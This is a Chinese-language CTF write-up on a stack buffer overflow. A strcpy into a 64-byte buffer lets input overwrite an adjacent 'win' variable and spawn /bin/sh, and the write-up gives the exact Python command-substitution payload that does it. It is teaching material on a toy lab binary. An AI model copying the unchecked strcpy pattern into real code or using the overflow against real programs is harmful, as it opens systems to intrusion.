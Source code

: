 # 代码审计

```
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}
```

可以看到，如果变量win是1，就可以getshell，打印出的栈中

![栈内容](1.png)

win紧接在strbuf后面，可以输入多一个覆盖win，从而改变win的值

>'a'*64+'\0x1'

就可以把 ```0x1``` 覆盖到栈中的win变量，从而修改win，getshell

# 利用

但是 ```0x1``` 不是可见字符，就不能直接在键盘上敲入

这时候就得需要利用一些功能把字符传入

比如python就可以打印任意字符 
```
print('\x01')
```
就实现了输入一个 ```0x1``` 的内容

因为这里的输入是紧跟在执行程序时的参数，所以可利用linux中反引号或$的功能

>$( )中放的是命令，相当于` `，例如todaydate=$(date +%Y%m%d)意思是执行date命令，返回执行结果给变量todaydate，也可以写为todaydate=`date +%Y%m%d`；

因此执行文件时如下

>➜  overflow1 ./overflow1 $(python -c "print('a'*64+'\x01')")

即可getshell
